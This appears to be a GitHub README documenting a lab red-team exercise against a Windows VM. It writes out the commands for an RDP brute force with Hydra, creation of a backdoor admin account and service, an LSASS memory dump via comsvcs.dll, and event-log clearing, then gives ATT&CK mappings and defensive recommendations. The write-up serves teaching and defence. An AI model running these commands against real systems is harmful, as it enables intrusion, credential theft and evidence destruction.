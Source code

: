 # Red Team Engagement 
***Referencing NIST 800-115***  

> **Disclaimer**: The following documentation highlights malicious tactics and techniques used **exclusively** for **authorized Red Team** or penetration-testing exercises in alignment with **NIST SP 800-115** (Technical Guide to Information Security Testing and Assessment). Any real-world, unauthorized execution of these steps is **illegal** and unethical.

---

## 1. Overview
During this simulated Red Team engagement, the adversary (operating from a **Kali Linux** machine) identified and brute-forced Remote Desktop Protocol (RDP) on **king-vm**, successfully compromising the **Administrator** account. Once inside, the attacker performed system **enumeration**, **credential dumping**, and **log tampering**. The provided screenshots depict:
- Network scanning and service enumeration from Kali  
- Successful brute force attempts against the Administrator account  
- RDP session establishment and subsequent malicious commands on the target

---

## 2. NIST 800-115 Alignment
NIST SP 800-115 outlines four phases for penetration testing:
1. **Planning**: Defining scope and objectives  
2. **Discovery**: Gathering information, identifying vulnerabilities  
3. **Attack**: Exploiting systems and escalating privileges  
4. **Reporting**: Documenting findings, TTPs, and recommendations  

All malicious activities below were part of a **controlled** Red Team test, following these phases.

---

## 3. Reconnaissance & Initial Access (Kali Machine)
### 3.1 Network Scanning
From the **Kali** host, the attacker scanned the target’s IP to discover open ports/services:
`nmap -p 3389 <TARGET_IP>`

- Found **RDP (3389)** open on **king-vm**.

  ![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/nMap_Scan.png)

### 3.2 RDP Brute Force
Using a password-guessing tool (**Hydra**) on Kali, the attacker ran repeated login attempts against the **Administrator** account:
`hydra -l Administrator -P /path/to/passwordlist.txt rdp://<TARGET_IP>`
- Eventually gained a **valid** password for the built-in **Administrator** user.  
- This is visible in the screenshots, showing successful brute force output.

  ![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/Hydra_Enumeration.png)
  ![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/Credential_Discovery.png)

### 3.3 Establishing RDP Session
With a **valid password** discovered, the adversary used an RDP client from Kali (or any remote RDP client) to log in:
`rdesktop <TARGET_IP> -u Administrator -p <DiscoveredPassword>`
- Successfully accessed the **king-vm** desktop.  
- The screenshots show the attacker’s remote desktop session from Kali.

![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/RDP_Initiation.png)
![alt text](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/Successful_RDP.png)

---

## 4. Post-Exploitation Activities on king-vm
Once inside, the attacker performed several key actions.

### 4.1 System Enumeration
Commands executed:
```
whoami
hostname
winver
systeminfo
ipconfig /all
arp -a
```

Identified OS version, patch level, network configuration, and local user context (administrator).

### 4.2 Privilege Escalation & Persistence
Administrator Account Modification

```
net user administrator Plokijuhy
Attempt to change Administrator password.
Creating a New Local Admin
```

```
net user EvilAdmin P@ssw0rd /add
net localgroup administrators EvilAdmin /add
```

Gave **EvilAdmin** full administrative privileges.

Malicious Service Creation

```
sc create EvilService
```

Used to register a potentially malicious service in the registry for persistence or lateral movement.

#### Modified registry keys under `HKCU`

### 4.3 Credential Dumping
```
tasklist | findstr lsass
rundll32 C:\Windows\System32\comsvcs.dll, MiniDump 648 C:\lsass.dmp full
```

Dumped LSASS process into `C:\lsass.dmp`, allowing offline credential extraction (NTLM hashes or clear-text passwords if available).

### 4.4 Log Tampering
```
wevtutil el
wevtutil cl "Application"
wevtutil cl "Windows PowerShell"
```

Attempted clearing event logs with wevtutil to cover tracks. Some operations returned “Access is denied”, but the intent was clear.

---

## 5 MITRE ATT&CK Techniques
**T1078 - Valid Accounts:** Gaining admin access via brute force.

**T1003 - Credential Dumping:** Dumped LSASS memory using rundll32 comsvcs.dll, MiniDump.

**T1136 - Create Account:** Created “EvilAdmin” for persistent access.

**T1543 - Create or Modify System Process:** Registered new service EvilService to maintain foothold.

**T1070.001 - Log Deletion:** Attempted to clear event logs via wevtutil.

---

## 6. Findings & Recommendations

Use MFA for RDP logins, secure jump host, a VPN or close the port

Enforce lockout policies after multiple failed attempts

Observe NSG rules and firewall rules for any open holes (exposed ports)

Enable LSASS protections (e.g., Credential Guard)

Regularly monitor for MiniDump or suspicious processes


Alert on event log clearing attempts and new service creation

Monitor for repeated login failures or brute force patterns

Rename or disable default **Administrator** and any other default accounts such as **Guest** if not strictly required

Implement password rotation and store credentials in a secure vault.

All commands ran on the target machine by the attacker recorded here:
[recorded commands](https://github.com/K-ING-TECH/Attack-Defense_Adversary-Emulation/blob/main/Windows_CMD_Output.txt)

---

### 7. Conclusion
From their **Kali** attack box, the Red Team scanned, brute-forced, and established RDP access to **king-vm** using the default **Administrator** account. Post-compromise, they performed reconnaissance, created new administrator accounts, dumped credentials from LSASS, and attempted to delete Windows event logs. This scenario illustrates how unsecured RDP endpoints can lead to devastating intrusions. Following **NIST SP 800-115** guidelines, the organization can implement stricter remote access controls, better monitoring, and robust credential policies to mitigate similar threats in the future.
